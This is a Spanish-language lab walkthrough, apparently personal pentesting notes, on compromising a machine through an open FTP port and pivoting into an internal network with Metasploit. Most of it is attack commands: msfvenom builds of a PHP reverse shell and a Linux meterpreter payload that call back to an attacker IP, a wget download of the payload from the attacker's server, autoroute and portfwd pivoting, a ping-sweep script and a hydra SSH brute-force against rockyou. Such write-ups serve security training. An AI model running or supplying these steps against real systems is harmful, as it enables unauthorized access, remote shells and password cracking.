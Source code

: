 - Tenemos una maquina con el puerto 21 abierto, por ese puerto vamos a subir un payloads para generara una reverse.
```
msfvenom -p php/reverse_php LHOST=(IP_ATACANTE) LPORT=443 -f raw > pwned.php
```

![](../Imagenes/Pasted%20image%2020250112171153.png)

- Entramos en el ftp y usamos el comando ==put== + el nombre de archivo que creamos para poder subirlo.

![](../Imagenes/Pasted%20image%2020250112171319.png)

- Dejamos en escucha y en la URL del navegador ponemos la IP victima / nombre del archivo para entrar.

![](../Imagenes/Pasted%20image%2020250112171424.png)

- Ya estamos dentro, vamos a hacer otra conexión mas estable.
- Para ingresar en la maquina victima la reverse primero se pone ==bash -c==.
- Casi igual que con Windows, vamos a crear un payload en msfvenom para generar un meterpreter en Linux.
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP_ATACANTE) LPORT=4444 -f elf -b '\x00\x0a\x0d' -o virus
```


![](../Imagenes/Pasted%20image%2020250112172319.png)

- Ahora vamos a compartirlo con la maquina victima levantando un servidor en Python.
```
python3 -m http.server 80
```
- En la sesión ya iniciada que tenemos en la maquina victima usamos el siguiente comando:
```
wget (IP_ATACANTE)/(NOMBRE_FICHERO)
```


![](../Imagenes/Pasted%20image%2020250112172542.png)

- Ahora, vamos a abrir metasploit y crear la sesión de meterpreter.
```
use /multi/handler
```


![](../Imagenes/Pasted%20image%2020250112172732.png)

- Lo configuramos.

![](../Imagenes/Pasted%20image%2020250112172757.png)

- Ingresamos el payload correcto que especificamos en ==msfvenom==, nuestra IP, le damos a run y ejecutamos el archivo virus en la maquina victima.

![](../Imagenes/Pasted%20image%2020250112173002.png)

- Ahora en la maquina victima vamos a darle permiso de ejecución al archivo virus y después ejecutarlo.

![](../Imagenes/Pasted%20image%2020250112173153.png)

- Ya tenemos nuestra sesión meterpreter.

![](../Imagenes/Pasted%20image%2020250112173216.png)

- Si ahora ejecutamos shell y después whoami, vamos a ver que somos usuario ==www-data==, así no se puede hacer Pivoting.

![](../Imagenes/Pasted%20image%2020250112173341.png)

- Tenemos que ser root.
- Para eso tenemos que escalar privilegios en la maquina victima, así que vamos a salir de la sesión interpreter.

![](../Imagenes/Pasted%20image%2020250112173641.png)

- Ahora que somos root.
- Ahora podemos volver al meterpreter.

![](../Imagenes/Pasted%20image%2020250112173831.png)

- Ahora somos root.
- Estando en meterpreter vamos a ejecutar el comando ==ifconfig== , para ver si hay mas maquinas en la red interna.

![](../Imagenes/Pasted%20image%2020250112174107.png)

- Aquí la tenemos.
- Ahora apretamos `ctrl + z` y lo pasamos a segundo plano.

![](../Imagenes/Pasted%20image%2020250112174216.png)

- Si ejecutamos el comando `sessions -l`

![](../Imagenes/Pasted%20image%2020250112174307.png)
- Podemos ver la session interpreter que tiene como ID el 2.
- Ahora ejecutamos el siguiente modulo.
```
use /multi/manage/autoroute
```


![](../Imagenes/Pasted%20image%2020250112174450.png)

- Vamos a configurarlo.

![](../Imagenes/Pasted%20image%2020250112174515.png)

- Aquí solo nos pide SESSION que en este caso seria el numero 2.

![](../Imagenes/Pasted%20image%2020250112174550.png)

- Ejecutamos.

![](../Imagenes/Pasted%20image%2020250112174611.png)

- Ahora el trafico esta enrutado.
- Si ejecutamos el comando `route`, lo vamos a poder ver.

![](../Imagenes/Pasted%20image%2020250112174652.png)

- Están conectadas ambas interfaces de red.
- Ahora hay que conocer las IPS, los HOSTS que están en la red interna.
- Ahora , abrimos otro terminal y usamos este código:
```
nano escaner.sh
```
- Dentro ponemos el siguiente código:
```
#!/bin/bash

for i in {1..255}; do
	timeout 1 bash -c "ping -c 1 10.10.10.$i" >/dev/null
	if [ $? -eq 0 ]; then
		echo "El host 10.10.10.$i está activo"
	fi
done
```
- Este comando ejecuta el comando ==ping== generando una traza ismp a cada uno de los posibles hosts que estén dentro de la red interna.
- Ahora lo compartimos con la maquina victima.
- Para eso en msf usamos el comando:
```
sessions -i (numero de sessions)
```


![](../Imagenes/Pasted%20image%2020250112175758.png)

- Aquí ejecutamos shell.
- ejecutamos el comando:
```
wget (IP_ATACANTE)/(ARCHIVO)
```
- Ya lo tendremos en la maquina victima.

![](../Imagenes/Pasted%20image%2020250112175941.png)

- Ahí mismo le damos permiso de ejecución y lo ejecutamos

![](../Imagenes/Pasted%20image%2020250112180107.png)

- Podemos ver las IP que están activas.
- Vamos a usar la IP 10.10.10.7 que es la IP que sabemos que tenemos de una de las maquinas virtuales que abrimos.
- Volvemos a la sesión de interpreter y luego `ctrl + z`

![](../Imagenes/Pasted%20image%2020250112180345.png)

- Ahora usamos un modulo que es para escanear puertos
```
use scanner/portscan/tcp
```


![](../Imagenes/Pasted%20image%2020250112180456.png)

- Lo configuramos.

![](../Imagenes/Pasted%20image%2020250112180527.png)

- Agregamos el RHOSTS.

![](../Imagenes/Pasted%20image%2020250112180639.png)

- Agregamos la IP de la maquina que queremos escanear.
- Ejecutamos.

![](../Imagenes/Pasted%20image%2020250112180715.png)

- Ya sabemos que puertos tiene abiertos.
- Vamos a atacar los puertos 22 y 631.
- Vamos a traernos los 2 puertos a un puertos especifico.
	- Eso lo tenemos que hacer si o si desde la sesión interpreter.
- Para eso vamos a meternos a la session 2.

![](../Imagenes/Pasted%20image%2020250112180923.png)

- Para hacerlo ahora, ocupamos el siguiente comando:
```
portfwd add -l 222 -p 22 -r 10.10.10.7
```
![[Pasted image 2025011218
![](../Imagenes/Pasted%20image%2020250112181114.png)
- Ahora vamos a hacer un ssh (con los datos que ya conocíamos de esta maquina)
```
ssh (usuario)@(IP_ATACANTE) -p (PUERTO_QUE_ESCOGIMOS)
```
![[Pasted image 20250112181337.png]]
![[Pasted image 20250112181402.png]]
- Ahora vamos a traer el puerto 631
```
portfwd add -l 5000 -p 631 -r 10.10.10.7
```
- Si nos damos cuenta solo cambian los puertos.
![[Pasted image 20250112181527.png]]
- Si pongo en el URL del navegador:
```
127.0.0.1:5000
```
![[Pasted image 20250112181635.png]]
- Estoy dentro.

- Si quiero hacer un ataque con ==hydra== ocuparia el siguiente comando.
```
hydra -l (NOMBRE) -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1 -s 222
```
- 222 porque habíamos dejado el puerto 22 en el puerto 222.